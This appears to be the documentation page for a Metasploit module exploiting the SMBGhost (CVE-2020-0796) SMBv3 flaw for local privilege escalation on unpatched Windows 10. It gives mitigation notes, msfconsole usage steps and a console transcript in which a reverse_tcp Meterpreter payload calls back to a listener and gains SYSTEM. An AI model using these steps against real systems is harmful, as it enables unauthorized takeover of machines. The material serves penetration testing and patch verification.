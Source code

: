 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3)
protocol that can be leveraged to execute code on a vulnerable server. This
local exploit implementation leverages this flaw to elevate itself before
injecting a payload into winlogon.exe.

This vulnerability was patched in March 2020 but prior to that enough
information was publicly available to trigger a crash which led to pre-patch
workarounds. The official recommendation from [Microsoft][1] at the time was to
disable SMBv3 compression, a feature which this exploit relies on. The module's
check method will determine this value using the registry to identify whether or
not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.
Given that this is a local exploit and the connection is made to the local host
this is likely an ineffective measure against this particular implementation of
the vulnerability.

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the
box. The default setting is to have SMBv3 compression enabled.

## Verification Steps

  1. Start msfconsole
  1. Get a Meterpreter session on a vulnerable host
  1. Do: `use exploit/windows/local/cve_2020_0796_smbghost`
  1. Set the `SESSION` and `PAYLOAD` options
  1. Do: `run`
  1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf exploit(windows/local/cve_2020_0796_smbghost) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-PKLKKF7\user
meterpreter > sysinfo
Computer        : DESKTOP-PKLKKF7
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/local/cve_2020_0796_smbghost) > show options

Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  -1               yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64


msf exploit(windows/local/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Windows Build Number = 18363
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and executing it...
[*] Sending stage (206403 bytes) to 192.168.159.153
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
